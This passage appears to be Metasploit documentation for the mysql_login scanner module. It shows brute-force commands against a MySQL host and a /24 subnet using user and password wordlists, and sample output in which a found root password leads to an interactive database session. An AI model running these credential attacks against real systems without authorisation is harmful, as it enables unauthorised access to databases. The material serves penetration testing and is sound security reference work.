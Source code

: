 Brute-force host with known user and password list:

```
use auxiliary/scanner/mysql/mysql_login
run mysql://known_user@192.168.222.1 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:

```
use auxiliary/scanner/mysql/mysql_login
run mysql://192.168.222.1 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:

```
use auxiliary/scanner/mysql/mysql_login
run cidr:/24:mysql://user:pass@192.168.222.0 threads=50
run cidr:/24:mysql://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
```

### Obtaining an Interactive Session on the Target

The CreateSession option in `scanner/mysql/msql_login` allows you to obtain an interactive session
for the MySQL client you're connecting to. The run command with CreateSession
set to true should give you an interactive session:

```msf
run rhost=127.0.0.1 rport=4306 username=root password=password createsession=true

[+] 127.0.0.1:4306        - 127.0.0.1:4306 - Found remote MySQL version 11.2.2
[+] 127.0.0.1:4306        - 127.0.0.1:4306 - Success: 'root:password'
[*] MySQL session 1 opened (127.0.0.1:53241 -> 127.0.0.1:4306) at 2024-03-12 12:40:46 -0500
[*] 127.0.0.1:4306        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/mysql/mysql_login) > sessions -i -1
[*] Starting interaction with 1...

mysql @ 127.0.0.1:4306 >
```

You can interact with your new session using `sessions -i -1` or `sessions <session id>`.
You can also use `help` to get more information about how to use your session.

```msf
msf6 auxiliary(scanner/mysql/mysql_login) > sessions

Active sessions
===============

  Id  Name  Type   Information                      Connection
  --  ----  ----   -----------                      ----------
  2         mssql  MSSQL test @ 192.168.2.242:1433  192.168.2.1:61428 -> 192.168.2.242:1433 (192.168.2.242)
  3         mysql  MySQL root @ 127.0.0.1:4306      127.0.0.1:61450 -> 127.0.0.1:4306 (127.0.0.1)

msf6 auxiliary(scanner/mysql/mysql_login) > sessions -i 3
[*] Starting interaction with 3...
```

